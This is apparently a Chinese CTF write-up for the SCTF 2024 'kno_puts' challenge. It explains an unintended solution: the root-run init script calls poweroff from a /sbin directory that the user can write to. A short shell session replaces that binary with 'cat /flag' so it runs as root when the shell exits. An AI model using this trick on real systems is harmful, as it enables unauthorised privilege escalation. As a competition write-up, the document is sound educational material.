 ```yaml
---
title: sctf2024 - kno_puts
date: 2024/10/22 00:42:00
updated: 2024/10/27 11:21:00
tags:
    - shell jail
excerpt: 通过替换可写的`poweroff`命令为`cat /flag`，在以1000身份运行的shell结束后成功用root的身份获取flag。
---
```


文件系统权限没设置好，非预期了。root启动`init`脚本，随后以1000身份将shell暴露给用户，
在shell运行结束后执行`poweroff`。结果`poweroff`是可写的，将其替换为`cat /flag` 后`exit`就可以拿flag

```bash /init
...
chmod 400 flag
insmod /test.ko
mknod -m 666 /dev/ksctf c `grep ksctf /proc/devices | awk '{print $1;}'` 0 
setsid /bin/cttyhack setuidgid 1000 /bin/sh 
poweroff -d 600 -f
```

```bash
$ which poweroff
/sbin/poweroff
$ ls -ld sbin 
drwxr-xr-x    2 1000     1000          1480 Sep 26 04:41 sbin
$ ls -l sbin/poweroff  
lrwxrwxrwx    1 1000     1000            14 Sep 26 18:02 sbin/poweroff -> ../bin/busybox
$ rm sbin/poweroff
$ echo 'cat /flag' > /sbin/poweroff
$ chmod +x /sbin/poweroff
$ exit
```

{% note default fa-flag %}
![flag](/assets/sctf2024/kerFlag.png)
{% endnote %}

> 预期解好像考到缺页错误引发的暂停，有点超出我的知识范畴了

看到了qanux师傅的一题5解，吓了一跳，太强了Orz

## 参考

[一题多解 SCTF 2024 kno_puts revenge](https://qanux.github.io/2024/10/07/kno_puts/)
